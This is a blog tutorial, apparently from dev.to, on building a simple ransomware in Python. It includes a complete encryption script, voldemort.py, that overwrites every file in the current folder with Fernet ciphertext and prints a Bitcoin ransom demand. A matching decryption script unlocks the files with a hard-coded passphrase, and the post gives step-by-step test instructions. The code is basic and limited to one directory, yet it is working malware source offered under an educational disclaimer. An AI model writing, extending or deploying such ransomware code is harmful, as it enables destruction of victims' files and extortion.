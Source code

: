 # Create ransomware script in python & test

Today, we're going to create our own ransomware.  
Aha, sounds interesting? It's not so complicated to build a simple one. We just need a system to test on where python is installed.  

> DISCLAIMER: This whole article is purely for educational purpose only. My sole aim here is to teach how to create your own ransomware script in python3.  

---

## What is a ransomware??

Ransomware is a malware designed to deny a user or organization access to files on their computer. By encrypting these files and demanding a ransom payment for the decryption key, cyberattackers place organizations in a position where paying the ransom is the easiest and cheapest way to regain access to their files.  

The malware first gains access to the device. Depending on the type of ransomware, either the entire operating system or individual files are encrypted. A ransom is then demanded from the victim.  

---

## Requirements:

1. A linux-based OS or [Windows Subsystem for Linux](https://dev.to/nitinkumar30/use-search-files-created-using-ubuntu-on-windows-1jid)  
2. Internet connection  

---

## Our approach !!

1. First, we'll need encrypt method which can encrypt the files  
2. Then, we need to decrypt mthod which can decrypt the encrypted files if ransom is provided  
3. We also need to keep key, which was used to encrypt the files & folders, so that decrypt the files, once ransom is fulfilled  

---

## Let's begin !!

Let's break this into small chunks:

1. Create necessary files & folders  
2. Write down our script for Encrypting the files  
3. Write down our script for Decrypting the files  
4. Giving the finishing touch to the project  

---

## 1. Create necessary files & folders

Step 1: As everything is configured for you, open the Ubuntu on Windows. If not yet, checkout my recent post on it [here](https://dev.to/nitinkumar30/use-search-files-created-using-ubuntu-on-windows-1jid)  
Step 2: Create a new folder using `mkdir ransomware` to create a directory named **ransomware**  
Step 3: Navigate to that directory using `cd ransomware`  
Step 4: Create some random files with below commands:  
        

```
        echo "This is a file" > file.txt
```

```
        echo "This is another file" > file2.txt
```
  

```
        echo "This is yet another 3rd file" > file3.txt
```
  

```
        echo "What is your name btw" > name.txt
```

Step 5: Now, create a directory with following command - `mkdir test`  
Step 6: You can check the contents of the files just created by running **cat** command - `cat file.txt` or `cat name.txt`  

---

## 2. Write down our script for Encrypting the files

Step 1: Now, we need to create our encrypting file to encrypt the required files, type the command - `nano voldemort.py`. This will create a python file with name voldemort & will open in vim editor.  
Step 2: Following is the python code for encryption part.  


```
#!/usr/bin/env python3

# importing necessary libraries
import os
from cryptography.fernet import Fernet

# Let's find some files

files = []

# checking all the files in current directory
for file in os.listdir():
        # ignoring the encrypting, decrypting & the key file
	if file == "voldemort.py" or file == "thekey.key" or file == "decrypt.py":
		continue
	if os.path.isfile(file):
		files.append(file)
# print all the files which is going to be infected with encryption
print(files)

# Generate the key used to encrypt the files
key = Fernet.generate_key()

# print(key)

# write the key into the file thekey.key
with open("thekey.key", "wb") as thekey:
	thekey.write(key)

# This is the main method which is encrypting all the files with the given key
for file in files:
	with open(file, "rb") as thefile:
		contents = thefile.read()
	contents_encrypted = Fernet(key).encrypt(contents)
	with open(file, "wb") as thefile:
		thefile.write(contents_encrypted)

# The message which will be shown to the users
print("All your files has been encrypted !!\nSend me 100 Bitcoins or I'll delete them in 24 hours.")
```

---

## 3. Write down our script for Decrypting the files  

Step 1: Now, we need to create our decrypting file. Type in the command - `nano decrypt.py`  
Step 2: Following is the python code for decryption part.  

```
#!/usr/bin/env python3

import os
from cryptography.fernet import Fernet

# Let's find some files

files = []

for file in os.listdir():
	if file == "voldemort.py" or file == "thekey.key" or file == "decrypt.py":
		continue
	if os.path.isfile(file):
		files.append(file)

print(files)


# key = Fernet.generate_key()

# print(key)

with open("thekey.key", "rb") as key:
	secretkey = key.read()

secretphrase = "coffee"

user_phrase = input("Enter the secret phrase to decrypt your files\n")
if user_phrase == secretphrase:
	for file in files:
		with open(file, "rb") as thefile:
			contents = thefile.read()
		contents_decrypted = Fernet(secretkey).decrypt(contents)
		with open(file, "wb") as thefile:
			thefile.write(contents_decrypted)

	print("Congrats, your files has been decrypted & safe now. Enjoy your coffee")
else:
	print("Sorry, wrong secret phrase. Send me more Bitcoins !!")

```

> Here, you'll observe that the encryption & decryption script are almost similar. Yes, they're. Actually, I've just copied the exact encryption file to create the decryption file & then done some minor changes to it.

---

## 4. Giving the finishing touch to the project  

Now is the time to test our ransomware is working or not.

Here, we'll check by first checking the files are having decrypted data or not.  
Then, we'll run the encrypt file & check the files are encrypted or not  
Then, we'll run the decrypt file & check the files are decrypted with original data or not.  

Step 1: Run the command - `cat file.txt` & then for remaining files  
Step 2: Run the encrypting file - `python3 voldemort.py`  
Step 3: Rerun step 1. You should see some random string is there in the contents of files  
Step 4: Now, run the decrypting file - `python3 decrypt.py`. Give secretphrase as **coffee** to pass the security check. You can change it in decrypt file.  
Step 5: Rerun step 1. You should see now, all the files will have original data of files.   

---

Note - Never run the encrypt file twice, else, you'll not be able to recover your files again. You can run encrypt file n number of times, but not the decrypt file.  

- This complete tutorial can be found in [NetworkChuck video](https://youtu.be/UtMMjXOlRQc?si=UeHz6Wyy4IohhAPt)  

---

Feel free to reach out to me via [LinkedIn](https://www.linkedin.com/in/nitin30kumar/), [Instagram](https://www.instagram.com/nitinkumar30.py/) or checkout my [Portfolio](https://nitinkr.me).

HAPPY HACKING !!!
